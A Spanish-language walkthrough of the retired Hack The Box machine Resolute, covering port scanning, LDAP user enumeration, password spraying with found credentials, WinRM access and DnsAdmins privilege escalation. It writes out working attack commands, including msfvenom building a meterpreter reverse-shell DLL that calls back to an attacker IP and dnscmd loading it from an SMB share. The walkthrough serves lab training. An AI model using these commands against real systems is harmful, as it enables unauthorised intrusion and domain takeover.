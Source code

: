 # Resolute-HTB

Desarrollo de la VM MONTEVERDE de HACK THE BOX (HTB)

## 1. Configuración de la VM

- La VM se encuentra en estado de retirada de HTB
- Se debe activar la VM para poder usarla, se requiere una suscripción PREMIUM.

## 2. Escaneo de Puertos

```
# Nmap 7.92 scan initiated Sat Apr  2 10:32:21 2022 as: nmap -n -P0 --top-ports 5000 -sS -sC -vv -T5 -oA full 10.129.136.132
Warning: 10.129.136.132 giving up on port because retransmission cap hit (2).
Increasing send delay for 10.129.136.132 from 0 to 5 due to 733 out of 1831 dropped probes since last increase.
Nmap scan report for 10.129.136.132
Host is up, received user-set (0.35s latency).
Scanned at 2022-04-02 10:32:22 EDT for 172s
Not shown: 4954 closed tcp ports (reset)
PORT      STATE    SERVICE          REASON
53/tcp    open     domain           syn-ack ttl 127
88/tcp    open     kerberos-sec     syn-ack ttl 127
135/tcp   open     msrpc            syn-ack ttl 127
139/tcp   open     netbios-ssn      syn-ack ttl 127
389/tcp   open     ldap             syn-ack ttl 127
445/tcp   open     microsoft-ds     syn-ack ttl 127
464/tcp   open     kpasswd5         syn-ack ttl 127
593/tcp   open     http-rpc-epmap   syn-ack ttl 127
636/tcp   open     ldapssl          syn-ack ttl 127
3268/tcp  open     globalcatLDAP    syn-ack ttl 127
3269/tcp  open     globalcatLDAPssl syn-ack ttl 127
5985/tcp  open     wsman            syn-ack ttl 127
49927/tcp open     unknown          syn-ack ttl 127

Host script results:
|_clock-skew: mean: 2h27m01s, deviation: 4h02m30s, median: 7m00s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2022-04-02T07:41:30-07:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63774/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 20975/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60972/udp): CLEAN (Failed to receive data)
|   Check 4 (port 33457/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-02T14:41:33
|_  start_date: 2022-04-02T14:27:05

```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute1.jpg" width=80% />


## 3. Enumeración

- Podemos enumerar utilizando ENUM4LINUX o AUTORECON.

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# enum4linux -a -M -l -d 10.129.136.132 > enum4linux.txt    
```

- Identificamos usuarios del repositorio LDAP y encontramos una contraseña: Welcome123!

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute2.jpg" width=80% />

- También podemos enumerar los usuarios con LDAPSEARCH:

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.129.136.132 
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute3.jpg" width=80% />

## 4. Explotación

## 4.1. Cracking ONLINE

- Tenemos usuarios y una contraseña. Identificamos melanie:Welcome123!

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# crackmapexec smb 10.129.136.132 -u users.txt -p 'Welcome123!' --shares --pass-pol
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute4.jpg" width=80% />

- Nos conectamos a través de WINRM

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute5.jpg" width=80% />

- En la carpeta USERS, encontramos la carpeta RYAN. Es una pista, el usuario RYAN parece que juega algun rol en este CTF.

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute6.jpg" width=80% />


## 4.2. Enumerando carpetas

- Otra técnica es buscar carpetas que contengan información sensible.
- En el directorio C:\, hay una carpeta oculta con información sensible. Password: ryan Serv3r4Admin4cc123!


<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute7.jpg" width=80% />

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute8.jpg" width=80% />


## 4.3. Cracking ONLINE (2)

- Con la contraseña encontrada, probamos un nuevo acceso. Nuevo acceso: ryan:Serv3r4Admin4cc123!

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute9.jpg" width=80% />

- Nos conectamos a través de WINRM:

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# evil-winrm -i 10.129.136.132 -u ryan -p 'Serv3r4Admin4cc123!'   
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute10.jpg" width=80% />


## 5. Elevando Privilegios

### 5.1. ABUSE DNSADMIN

- En la imagen superior vemos que el usuario RYAN pertenece al grupo DNSADMIN. Eso también es una pista.
- Existe un procedimiento ya conocido para expotar la vulnerabilidad:

** Construir una DLL maliciosa
** Inyectar la DLL maliciosa de manera remota, es decir, a través de SMB. Se puede realizar de manera local pero algún AV podría detectarlo.
** Reiniciar el servicio y se obtiene shell reversa.

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise
https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

- Creamos el DLL malicioso
```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.15 LPORT=8080 -f dll > evil.dll
```

- Levantamos un servidor SMB para compartir la carpeta
```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# /usr/bin/impacket-smbserver share $(pwd)  
```

- En la víctima cargamos la librería DNS, detenemos el servicio y lo iniciamos de nuevo

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.16.15\share\evil.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3780
        FLAGS              :
```


- En KALI, levantamos el HANDLER y esperamos la conexión reversa:


<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute11.jpg" width=80% />




























































































